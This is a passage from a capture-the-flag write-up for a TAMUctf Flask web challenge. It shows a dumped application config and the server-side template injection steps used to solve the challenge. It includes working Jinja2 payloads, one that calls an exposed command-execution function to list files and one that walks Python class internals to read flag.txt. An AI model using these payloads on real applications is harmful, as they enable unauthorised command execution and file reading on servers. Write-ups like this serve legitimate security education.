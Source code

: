 ```
The result of combining <Config {'JSON_AS_ASCII': True, 'O_DSYNC': 4096, 'O_RSYNC': 1052672, 'EX_IOERR': 74, 'EX_NOHOST': 68, 'O_RDONLY': 0, 'ST_SYNCHRONOUS': 16, 'SESSION_REFRESH_EACH_REQUEST': True, 'EX_TEMPFAIL': 75, 'WCOREDUMP': <built-in function WCOREDUMP>, 'SEEK_CUR': 1, 'O_LARGEFILE': 0, 'ST_RELATIME': 4096, 'SECERT_KEY': 'super-secret', 'O_EXCL': 128, 'O_TRUNC': 512, 'EX_OSFILE': 72, 'WIFEXITED': <built-in function WIFEXITED>, 'ST_MANDLOCK': 64, 'ST_NODIRATIME': 2048, 'F_OK': 0, 'WFT_CSRF_ENABLED': True, 'ST_RDONLY': 1, 'EX_NOINPUT': 66, 'O_NOFOLLOW': 131072, 'ST_NOSUID': 2, 'O_CREAT': 64, 'O_SYNC': 1052672, 'EX_NOPERM': 77, 'O_WRONLY': 1, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'WNOHANG': 1, 'LOGGER_HANDLER_POLICY': 'always', 'O_NOATIME': 262144, 'TMP_MAX': 238328, 'MAX_CONTENT_LENGTH': None, 'ST_WRITE': 128, 'WTERMSIG': <built-in function WTERMSIG>, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'P_NOWAITO': 1, 'R_OK': 4, 'TRAP_HTTP_EXCEPTIONS': False, 'WUNTRACED': 2, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'EX_OSERR': 71, 'EX_DATAERR': 65, 'ST_APPEND': 256, 'SESSION_COOKIE_PATH': None, 'ST_NOATIME': 1024, 'W_OK': 2, 'EX_OK': 0, 'O_APPEND': 1024, 'EX_CANTCREAT': 73, 'O_NOCTTY': 256, 'LOGGER_NAME': 'tamuctf', 'O_NONBLOCK': 2048, 'SECRET_KEY': None, 'EX_UNAVAILABLE': 69, 'EX_CONFIG': 78, 'P_NOWAIT': 1, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'ST_NODEV': 4, 'TESTING': False, 'TEMPLATES_AUTO_RELOAD': None, 'JSONIFY_MIMETYPE': 'application/json', 'WEXITSTATUS': <built-in function WEXITSTATUS>, 'NGROUPS_MAX': 65536, 'WIFCONTINUED': <built-in function WIFCONTINUED>, 'O_RDWR': 2, 'P_WAIT': 0, 'O_NDELAY': 2048, 'USE_X_SENDFILE': False, 'EX_NOUSER': 67, 'SEEK_SET': 0, 'SESSION_COOKIE_SECURE': False, 'O_DIRECT': 16384, 'EX_SOFTWARE': 70, 'RUNCMD': <function check_output at 0x7fdb8c8f2668>, 'WSTOPSIG': <built-in function WSTOPSIG>, 'WIFSIGNALED': <built-in function WIFSIGNALED>, 'DEBUG': False, 'O_ASYNC': 8192, 'EXPLAIN_TEMPLATE_LOADING': False, 'O_DIRECTORY': 65536, 'WCONTINUED': 8, 'SEEK_END': 2, 'ST_NOEXEC': 8, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PROPAGATE_EXCEPTIONS': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'WIFSTOPPED': <built-in function WIFSTOPPED>, 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'EX_PROTOCOL': 76, 'EX_USAGE': 64, 'X_OK': 1}> and S is:
```

No dice. Then, let's try listing files with `{{config['RUNCMD']('ls')}}`.

> It seems like they plugged the `RUNCMD` hole after I solved the challenge. The
> final payload still works, but you would have to figure out which file to read
> in some other way.

```
The result of combining config.py entry.sh flag.txt requirements.txt serve.py tamuctf and S is:
```

Alright, let's read the flag with `{{''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()}}`.

```
The result of combining gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} and S is:
```

- flag: `gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}`

## Science
**Category**: Secure Coding

> https://gitlab.tamuctf.com/root/science

This repo contains the source code for the Science challenge. We're interested
in the [tamuctf/views.py](science/views.py) file, which contains the vulnerable
route.
